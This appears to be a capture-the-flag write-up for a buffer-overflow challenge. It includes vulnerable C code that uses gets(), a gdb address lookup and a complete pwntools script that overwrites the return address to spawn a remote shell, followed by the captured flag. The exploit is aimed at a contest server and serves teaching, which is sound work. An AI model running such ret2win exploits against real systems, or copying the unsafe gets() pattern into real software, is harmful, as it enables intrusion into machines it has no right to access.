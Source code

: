 # coffer-overflow-2
This is the 3rd `buffer overflow` challeng, and it couldn't be done without some `gdb`.
## The source
```cpp
int main(void){
char name[16];
  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```
As you can see, we don't get another variable for us to overflow, instead we have a function in outside main. This case, we want to alter the `rip` registerto the address of `binFunction()` so we can get that running.

First of all, we need to find the return address of `main` and the address of `binFunction()`
## Finding Addresses (manual)
We can use `gdb` to help us.
```bash
gdb
info functinos binFunction
0x00000000004006e6
```
## The exploit
I wrote a python script(for this one, to automate it) to find the `binFunction` address and automatically generate and send the payload.
```python
from pwn import *
import sys
context(os='linux', arch='i386')
local = "./coffer-overflow-2"
host,port = "2020.redpwnc.tf",31908
conn = remote(host,port)
elf = ELF(local)
binFunction = elf.symbols["binFunction"]
size = 0x10+8
payload = "A"*size
payload += p64(binFunction)
conn.recvuntil("with?")
conn.recvline()
conn.sendline(payload)
conn.interactive()	
```
## The flag
As usual, we can cat out the flag in the shell.
```bash
cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```